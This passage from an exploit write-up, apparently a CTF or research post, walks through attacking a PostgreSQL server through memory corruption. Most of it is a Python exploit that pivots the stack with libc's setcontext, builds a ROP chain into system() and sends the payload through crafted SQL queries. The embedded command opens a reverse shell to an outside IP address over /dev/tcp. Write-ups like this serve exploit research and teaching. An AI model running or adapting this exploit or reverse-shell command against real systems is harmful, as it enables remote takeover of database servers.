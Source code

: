 As you can see it has a lot of nice assembly instructions, we can set the `rsp` with value from `[rdx+0xa0]`. Good news is that `rdx` is taken from `rdi`, which points to memory that we control. A bit of shenanigans and we end up with final payload:


```py
SETCONTEXT = 0x40ef0
SYSTEM = 0x4c3a0
POP_RDI = 0x0000000000027765 # : pop rdi ; ret

def exploit():
    conn.commit(); cur = conn.cursor()
    cur.execute(b"SELECT repeat('1s0', 1000)") # fix rdi MSB

    fake_struct = flat(
        b'whatever',
        p64(rdi+0x10), # point to address below
        p64(libc_base+SETCONTEXT),
        b'/bin/bash -c "/bin/sh -i >& /dev/tcp/143.42.7.235/4444 0>&1"   \x00', # padded to 8B
    )

    for v in range(1+8, 0x1d):
        if v == 0x13: # rcx
            # special case - point it to ret
            # it is being pushed on stack later, so we dont want to break our ROP
            fake_struct += p64(libc_base+POP_RDI+1)
            continue
        
        # create values that will be picked by [rdx+X] operations
        # 0x10000 is to move our new rsp a bit further so `system` function stack is able to grow
        fake_struct += p64(rdi+0x70+0x88+0x10000)

    # add padding
    for _ in range(0x10000//8):
        fake_struct += p64(0xDD)

    # ROP
    fake_struct += flat(
        p64(libc_base+POP_RDI+1), # ret to align the stack
        p64(libc_base+POP_RDI),
        p64(rdi+0x18), # reverse shell cmd
        p64(libc_base+SYSTEM),
    )

    cur.execute(flat(
        b"SELECT '\\x",
        b'deadbeef', # add 4B padding to align the rest of payload to 8B
        fake_struct.hex().encode(),
        b'aaaaaaaa' * 0x400000,
        b"'::bytea, bpchar_sum('1', '",
        payload.strip(b'\x00'), # no null bytes allowed
        b"')"
    ))
```
